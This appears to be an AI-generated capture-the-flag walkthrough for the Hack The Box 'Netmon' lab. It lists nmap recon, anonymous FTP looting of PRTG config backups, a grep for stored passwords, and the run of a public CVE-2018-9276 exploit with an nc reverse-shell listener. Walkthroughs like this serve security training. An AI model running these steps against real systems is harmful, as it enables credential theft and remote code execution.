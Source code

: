 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

## 🧰 Tools Used

- `nmap`
- `ftp`
- `wget`
- `grep`
- Web browser (for accessing PRTG Network Monitor login)
- Exploit from GitHub: [A1vinSmith/CVE-2018-9276](https://github.com/A1vinSmith/CVE-2018-9276)
- Python3 (to run the CVE-2018-9276 exploit)

---

## 💻 Commands (In Order)

### 🔍 Recon
```bash
sudo nmap -A 10.10.10.152 -p-
```

### 📂 [FTP](FTP.md) Enumeration
```bash
ftp 10.10.10.152
# Login as anonymous
# Navigate and find user.txt
```

### ⚠️ [SMB](SMB.md) Enumeration Attempt
```bash
# Attempted but failed without credentials
```

### 🌐 [Web Enumeration](HTTP)
```text
# Visit http://10.10.10.152 and observe PRTG login page
# Try default creds: prtgadmin:prtgadmin (fails)
```

### 🔍 Find Stored PRTG Credentials
```bash
# Go back to FTP and look under:
ftp> cd /ProgramData/Paessler
ftp> ls

# Exit FTP and download recursively:
wget -r ftp://10.10.10.152/ProgramData/Paessler
```

### 🔎 Search Downloaded Configs for Passwords
```bash
grep -r -l 'password' PRTG\ Network\ Monitor 2>/dev/null
# Find PRTG Configuration.old.bak
```

### 🧠 Critical Thinking: Try Common Variation
```text
# Use password: PrTg@dmin2019
# Login successfully to PRTG web interface
```

### 📡 Exploitation: CVE-2018-9276
```bash
# Clone or download exploit:
git clone https://github.com/A1vinSmith/CVE-2018-9276.git
cd CVE-2018-9276

# Run the exploit script (Python 3):
python3 exploit.py -t 10.10.10.152 -u prtgadmin -p 'PrTg@dmin2019' -l 10.10.14.X -P 4444

# On attacker box, setup listener:
nc -lvnp 4444
```

---

Let me know if you want this turned into a Markdown template or a printable cheatsheet! 🛠️📄